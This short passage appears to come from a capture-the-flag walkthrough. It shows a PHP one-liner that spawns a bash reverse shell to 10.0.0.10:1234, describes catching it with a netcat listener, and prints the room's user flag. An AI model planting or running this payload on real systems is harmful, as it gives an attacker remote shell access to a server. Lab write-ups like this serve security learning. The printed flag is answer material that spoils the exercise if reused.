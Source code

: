 ## PHP Reverse Shell

We can use a pretty simple one liner to get a reverse shell connection using PHP

`<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'"); ?>`

* we just have to set up a netcase listener on port 1234 and we should get a connection back
* we can read the user.txt file after gaining a connection
* user.txt: `THM{y0u_g0t_a_sh3ll}`

